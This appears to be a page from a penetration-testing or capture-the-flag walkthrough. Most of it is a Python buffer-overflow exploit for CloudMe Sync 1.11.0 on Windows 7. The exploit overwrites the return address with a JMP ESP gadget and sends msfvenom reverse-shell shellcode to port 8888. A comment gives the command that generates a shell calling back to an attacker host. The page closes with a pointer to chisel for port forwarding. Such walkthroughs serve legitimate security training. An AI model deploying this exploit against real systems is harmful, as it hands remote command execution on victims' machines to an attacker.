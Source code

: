     #######################################################

    #Disclosure Date: March 12, 2018
    #Response Date: March 14, 2018
    #Bug Fixed: April 12, 2018

    # Run this file in victim's win 7 sp1 x86 system where CloudMe Sync 1.11.0 has been installed.

    import socket

    target="127.0.0.1"

    junk="A"*1052

    eip="\x7B\x8A\xA9\x68"		#68a98a7b : JMP ESP - Qt5Core.dll

    #msfvenom -p windows/shell_reverse_tcp LHOST=192.168.2.1 LPORT=4444 -f c

    shellcode=( "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
    "\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
    "\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
    "\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
    "\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
    "\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
    "\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
    "\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
    "\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
    "\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
    "\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
    "\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
    "\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x0a\x0e\x18\x68"
    "\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
    "\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2"
    "\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
    "\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44"
    "\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56"
    "\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff"
    "\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
    "\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
    "\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5")

    payload=junk+eip+shellcode

    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target,8888))
    s.send(payload)

## chisel

We will use [chisel](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Network%20Pivoting%20Techniques.md#chisel)
in order to access `CloudMe` service.
